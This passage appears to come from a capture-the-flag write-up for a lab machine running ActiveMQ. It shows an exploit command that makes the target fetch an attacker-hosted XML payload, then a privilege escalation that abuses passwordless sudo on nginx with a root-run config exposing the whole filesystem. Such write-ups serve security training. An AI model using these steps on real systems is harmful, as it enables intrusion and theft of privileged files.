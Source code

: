 ```bash
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.10:8001/poc-linux.xml
```



## Exploitation (Root)

* sudo -l&#x20;

```bash
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

* So we have root permissions on nginx,
* &#x20;i.e we can create a webserver on the box with root privileges.
* Refer to the following docs to crate a webserver

{% embed url="https://docs.nginx.com/nginx/admin-guide/web-server/web-server/" %}

```
activemq@broker:/tmp$ cat heap.conf
user root;

worker_processes auto;
pid /run/nginx6767.pid;

include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {
        server{
                listen 7878;
                location /{
                        root /;
                        autoindex on;
                }
        }
}
```

* And start the nginx server with following cmd

```bash
 sudo nginx -c /tmp/heap.conf
```

```bash
activemq@broker:/tmp$ curl localhost:7878/root/
<html>
<head><title>Index of /root/</title></head>
<body>
<h1>Index of /root/</h1><hr><pre><a href="../">../</a>
<a href="cleanup.sh">cleanup.sh</a>                                         07-Nov-2023 08:15                 517
<a href="root.txt">root.txt</a>                                           10-Nov-2023 06:11                  33
</pre><hr></body>
</html>
activemq@broker:/tmp$
```